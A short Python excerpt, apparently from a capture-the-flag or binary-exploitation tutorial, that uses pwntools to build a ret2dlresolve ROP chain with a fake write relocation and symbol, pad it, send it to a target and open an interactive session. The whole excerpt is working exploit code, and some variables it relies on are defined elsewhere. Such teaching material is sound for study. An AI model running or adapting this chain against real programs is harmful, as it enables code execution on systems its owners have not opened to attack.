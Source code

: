 ```python
### making fake write relocation

## making base_stage+24 ---> fake reloc
index_offset = base_stage + 24 - rel_plt
write_got = elf.got['write']
r_info = (index_dynsym << 8) | 0x7
fake_write_reloc = flat([write_got, r_info])

rop.raw(plt0)
rop.raw(index_offset)
## fake ret addr of write
rop.raw('bbbb')
rop.raw(1)
rop.raw(base_stage + 80)
rop.raw(len(sh))
rop.raw(fake_write_reloc)  # fake write reloc
rop.raw('a' * align)  # padding
rop.raw(fake_write_sym)  # fake write symbol
rop.raw('write\x00')  # there must be a \x00 to mark the end of string
rop.raw('a' * (80 - len(rop.chain())))
rop.raw(sh)
rop.raw('a' * (100 - len(rop.chain())))

r.sendline(rop.chain())
r.interactive()
```

